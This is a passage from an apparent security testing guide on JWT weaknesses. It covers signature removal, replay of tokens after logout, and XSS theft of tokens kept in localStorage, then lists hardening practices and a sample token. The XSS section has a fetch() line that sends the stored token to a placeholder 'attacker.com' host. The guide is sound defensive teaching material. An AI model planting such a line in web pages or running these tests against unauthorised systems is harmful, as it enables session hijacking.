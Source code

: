 Then remove the signature and resend the token. If accepted, the application does not validate JWT signatures correctly.

***

#### 3. Token Replay Attacks

If the **expiration (`exp`) claim is missing**, JWTs can be reused indefinitely.

**Testing Steps:**

1. Capture a JWT from an authenticated request.
2. Logout from the application.
3. Replay the JWT request. If access is granted, the token is **not being invalidated** on logout.

***

#### 4. XSS-Based Token Theft

If JWTs are stored in `localStorage`, they can be stolen via **Cross-Site Scripting (XSS)**.

```javascript
fetch("https://attacker.com/steal?token=" + localStorage.getItem("jwt"));
```

***

### Best Practices for Securing JWTs

✅ **Use Strong Secrets:** Use a **random, high-entropy key** for HMAC algorithms.\
✅ **Enforce Expiration (`exp`) Claims:** Tokens should expire within a short timeframe.\
✅ **Use Asymmetric Encryption (RS256):** Prefer **RS256** over **HS256**.\
✅ **Disable `none` Algorithm:** Ensure `"none"` is not a valid signing algorithm.\
✅ **Store Tokens Securely:** Use **HTTP-only cookies** instead of `localStorage`.\
✅ **Implement Token Rotation:** Issue **short-lived access tokens** and **refresh tokens**.

***

### Secure JWT Example

```json
{
  "alg": "HS256",
  "typ": "JWT"
}
.
{
  "sub": "1234567890",
  "name": "John Doe",
  "exp": 1714044800
}
.
HMACSHA256(base64UrlEncode(header) + "." + base64UrlEncode(payload), secret)
```

**Why Secure?**
